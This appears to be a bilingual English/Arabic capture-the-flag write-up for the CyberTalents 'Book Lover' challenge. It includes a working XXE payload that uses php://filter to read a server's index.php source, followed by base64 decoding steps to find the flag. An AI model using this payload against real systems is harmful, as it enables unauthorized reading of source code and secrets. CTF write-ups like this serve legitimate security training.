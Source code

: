 # 🛡️ CyberTalents Challenge Name:Book Lover

## 🔍 Challenge Summary

We are given a target web app that processes user input via POST requests. While experimenting, we discovered the backend executes part of the input dynamically using PHP.

Upon deeper testing, we confirmed the server is vulnerable to **XXE injection** with access to `php://filter`, which allows reading the PHP source code of server-side files, base64-encoded.

---

## 🚀 Exploitation Steps | خطوات الاستغلال

### 1️⃣ Upload the XML Payload | رفع ملف XML يحتوي على الحمولة

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
  <data>&xxe;</data>
</root>
```


2️⃣ Copy the Base64 Output | نسخ الإخراج المشفر
Once the payload is submitted, you will see a long base64-encoded string in the output.

3️⃣ Decode the Base64 | فك تشفير البايس 64
Use any base64 decoder:

🔹 Online: https://www.base64decode.org
🔹 Or via terminal:
```
echo "PASTE_BASE64_HERE" | base64 -d
```
4️⃣ Analyze the Decoded PHP Code | تحليل الكود بعد فك التشفير
After decoding the output, you’ll see the actual source code of index.php.

Search inside it for keywords like:
$flag = '********';
🎉 The flag is found! Mission accomplished.

